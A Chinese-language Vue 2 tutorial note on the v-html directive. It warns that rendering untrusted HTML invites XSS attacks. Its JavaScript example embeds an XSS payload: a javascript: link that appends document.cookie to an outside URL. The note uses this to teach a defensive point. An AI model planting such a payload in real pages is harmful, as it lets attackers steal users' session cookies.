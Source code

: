 ```yaml
---
title: Vue v-html
date: 2022-05-22 6:00:00
categories:
        - 前端框架
tags:
        - Vue
        - 前端
        - Vue 2
        - Note
---
```


# v-html

设置元素的 innerHTML，会覆盖元素中的所有内容。但与`v-text`不同的是，它会识别 HTML 元素

## 安全性

在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 `XSS` 攻击。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

**HTML**

```HTMl
<div id="app">
    <div v-html="msg">原内容</div>
</div>
```

**JavaScrip**

```JavaScrip
var vm = new Vue({
	el: '#app',
	data: {
		msg: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>XXS 攻击</a> ',
	},
});

Vue.config.productionTip = false;

```
